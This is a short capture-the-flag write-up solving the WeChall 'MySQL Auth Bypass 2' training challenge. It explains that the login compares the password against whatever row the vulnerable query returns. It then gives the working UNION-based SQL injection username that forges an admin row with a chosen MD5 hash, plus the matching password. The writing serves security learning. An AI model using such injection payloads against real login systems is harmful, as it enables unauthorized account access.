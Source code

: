 http://www.wechall.net/challenge/training/mysql/auth_bypass2/index.php

look at the code, there's only 3 line changed comparing to Training: MySQL I. it takes out password from the result of the vul SQL statement and check if it's equal to user's input
so we trick the auth system, make the result of the SQL statement look like admin's password is `202cb962ac59075b964b07152d234b70` (`123`'s md5 hash).

according to the table structure given at the top of the code, we can do `SELECT 1,'admin','202cb962ac59075b964b07152d234b70';`

so the final username is `' UNION SELECT 1,'admin','202cb962ac59075b964b07152d234b70';#`, password is `123`.

answer: username: `' UNION SELECT 1,'admin','202cb962ac59075b964b07152d234b70';#`, password: `123`
